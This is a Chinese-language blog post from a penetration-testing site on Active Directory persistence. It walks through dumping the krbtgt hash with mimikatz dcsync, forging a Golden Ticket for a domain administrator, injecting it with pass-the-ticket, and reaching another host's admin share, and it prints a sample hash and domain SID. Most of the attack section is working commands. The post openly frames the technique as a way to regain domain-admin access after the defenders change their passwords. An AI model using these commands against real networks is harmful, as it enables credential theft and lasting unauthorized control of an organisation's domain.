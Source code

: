 ```yaml
---
layout: post
title: Pass the Ticket——Goldenn Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。本文主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket]() 图片来源于



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt密码的hash，则可以尝试伪造用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  

### \#0x01 获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID  
3、域名称  
4、域内机器普通用户权限

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash]()  

从上图中可以得到nt hash：30eef769c3d770a7b68e71025b7cbc4e和域SID：S-1-5-21-1682317650-3676829891-3458760176  

### \#0x02 伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上完成域管权限的找回。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt]() 
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission]() 
3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  
![create tgt]() 
4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```
![import tgt]() 
5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success]() 

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success]() 

### \#0x03 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
